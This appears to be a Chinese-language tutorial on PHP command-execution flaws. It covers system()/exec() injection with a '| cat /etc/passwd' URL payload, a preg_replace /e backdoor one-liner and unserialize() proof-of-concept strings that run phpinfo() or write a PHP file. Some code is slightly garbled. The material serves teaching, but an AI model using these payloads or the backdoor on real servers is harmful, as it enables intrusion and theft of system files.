 #命令执行
system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()，`dir`

函数原型

string system(string command, int &return_var)

    command 要执行的命令

    return_var 存放执行命令的执行后的状态值

string exec (string command, array &output, int &return_var)

    command 要执行的命令

    output 获得执行命令输出的每一行字符串

    return_var 存放执行命令后的状态值

void passthru (string command, int &return_var)

    command 要执行的命令

    return_var 存放执行命令后的状态值

string shell_exec (string command)

    command 要执行的命令

漏洞分析
//ex1.php 
    $dir = $_GET["dir"]; 
    if (isset($dir)) 
    { 
    echo "

    "; 

    system("ls -al ".$dir); 
    echo "

";  }  ?> 

我们提交http://www.sectop.com/ex1.php?dir=| cat /etc/passwd

提交以后，命令变成了 system("ls -al | cat /etc/passwd");



下面是一些有意思的：
【1】preg_replace（）这个函数：
出发条件：
01：第一个参数需要e标识符，有了它可以执行第二个参数的命令
02：第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令，举个例子：
//echo preg_replace(‘/test/e’, ‘phpinfo()’, ‘just test’);这样是可以执行命令的
//echo preg_replace(‘/test/e’, ‘phpinfo()’, ‘just tesxt’); 或者echo preg_replace(‘/tesxt/e’, ‘phpinfo()’, ‘just test’); 这两种没有匹配上，所以返回值是第三个参数，不会执行命令
利用：

我们可以构造这样的后门代码：

    @preg_replace("//e",$_GET['h'],"Access Denied");   
    echo preg_replace("/test/e",$_GET["h"],"jutst test");  

当访问这样这样的链接时就可以被触发：

http://localhost:8000/testbug.php?h=phpinfo();


【2】php反序列化漏洞：
[php] view plain copy

    <?php  
    class Example  
    {  
    var $var = "";  
    function __destruct()  
        {  
            eval($this->var);  
        }  
    }  
    class foo{  
        public $file="";  
        public $data="";  
                function __wakeup(){  
            file_put_contents($this->file,$this->data);  
            echo "调用";  
        }  
          
    }  
      
     $str=$_GET["name"];  
     unserialize($str);  
    ?>  


参考：http://www.freebuf.com/vuls/80293.html

这个很有意思

首先php反序列化可以反序列化成为一个对象，而这个对象被创建之后就会自动调用php的魔幻方法

__destruct()

__wakeup()


并且将参数传递进去，从而实现恶意的攻击


利用条件：

1、应用程序中必须含有一个实现某个PHP魔幻方法（例如__wakeup或者__destruct）的类，可以用这个类进行恶意攻击，或者开始一个“POP链”。

2、当调用脆弱的unserialize()时，必须声明攻击期间所使用的所有类，否则必须为这些类支持对象自动加载。


利用过程：

http://localhost:8000/testbug.php?name=O:7:%22Example%22:1:{s:3:%22var%22;s:10:%22phpinfo();%22;}



下面就是一个命令执行的poc参数

O:7:%22Example%22:1:{s:3:%22var%22;s:10:%22phpinfo();%22;}


第一个O是代表object：表示反序列化为一个类

第二个7是类名的长度，比如我要反序列化成为Example的一个对象，那么“Example”长度就是7

第三个Example是类名，要用%22包裹住，而%22就是“的url形式

第四个1是参数的数量，我这里只有一个参数var

第五个：{s:3:%22var%22;s:10:%22phpinfo();%22;}这个里面是要传递进去的参数

5.1的s表示的是一个字符串

5.2的3表示的是参数名的长度

5.3的var是参数名

5.4的s表示的是一个字符串

5.5的10表示的是变量的长度

5.6的phpinfo();是实际的变量


这个poc执行之后首先会创建一个Example的对象，然后将var的值传递进去，然后调用__destruct()

就像

$obj=newExample;

$obj->var=”phpinfo();”;

$obj->__wakeup();


这样的过程


第二个利用的poc是：


http://localhost:8000/testbug.php?name=O:3:%22foo%22:2:{s:4:%22file%22;s:10:%22heheda.php%22;s:4:%22data%22;s:19:%22<?phpphpinfo(); ?>%22;}


可以看出来，php反序列化可以调用任何类




    

eval注入攻击

